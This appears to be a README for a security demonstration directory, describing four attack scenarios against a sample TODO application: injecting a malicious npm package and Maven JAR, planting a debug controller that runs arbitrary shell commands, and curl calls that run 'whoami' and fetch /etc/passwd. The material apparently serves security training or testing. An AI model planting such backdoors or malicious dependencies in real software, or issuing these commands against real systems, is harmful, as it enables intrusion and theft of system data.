 
# Attack Simulation Guide

This directory contains intentionally malicious code used to demonstrate several
ways an attacker could compromise the TODO application.

## Attack Scenarios

1. **Malicious npm package injection** – infect the React client by installing
   the locally built `evil-package`.
2. **Malicious Maven library injection** – add the `evil-lib` JAR to the Spring
   Boot backend.
3. **Remote shell backdoor** – copy a debug controller that executes arbitrary
   commands.
4. **Password leak endpoint** – the same controller exposes an endpoint that
   returns `/etc/passwd`.

---

### 1. Malicious npm package injection

1. Build the package:
   ```bash
   cd evil-package
   npm pack
   ```
   This produces a `.tgz` archive under `evil-package/`.

2. Infect the client application:
   ```bash
   cd ../../todo-client
   npm install ../malicious/evil-package/evil-package-1.0.0.tgz
   ```
   The archive is added to `package-lock.json`, mimicking a compromised
   dependency tree.

### 2. Malicious Maven library injection

1. Build and install the library to the local Maven repository:
   ```bash
   cd evil-lib
   mvn install -DskipTests
   ```

2. Add the dependency to the backend:
   ```bash
   cd ../../todo-api
   mvn install:install-file \
       -DgroupId=com.malicious \
       -DartifactId=evil-lib \
       -Dversion=1.0.0 \
       -Dpackaging=jar \
       -Dfile=../malicious/evil-lib/target/evil-lib-1.0.0.jar
   # Then update pom.xml to reference com.malicious:evil-lib:1.0.0
   ```
   The manual step mimics an attacker injecting the dependency after the build
   has started.

### 3. Remote shell backdoor

1. Copy the malicious controller into the API:
   ```bash
   cd malicious
   cp debug-controller/src/main/java/com/example/demo/DebugController.java \
      ../todo-api/src/main/java/com/example/demo/DebugController.java
   cd ..
   ```

2. Rebuild the application so the new endpoint is active:
   ```bash
   cd ../todo-api
   ./mvnw package -DskipTests
   ```

3. Execute arbitrary commands:
   ```bash
   curl "http://<todo-api-service>/debug-shell?cmd=whoami"
   ```

### 4. Password leak endpoint

With the debug controller installed, this call exfiltrates the host's
`/etc/passwd` file:

```bash
curl "http://<todo-api-service>/leak"
```
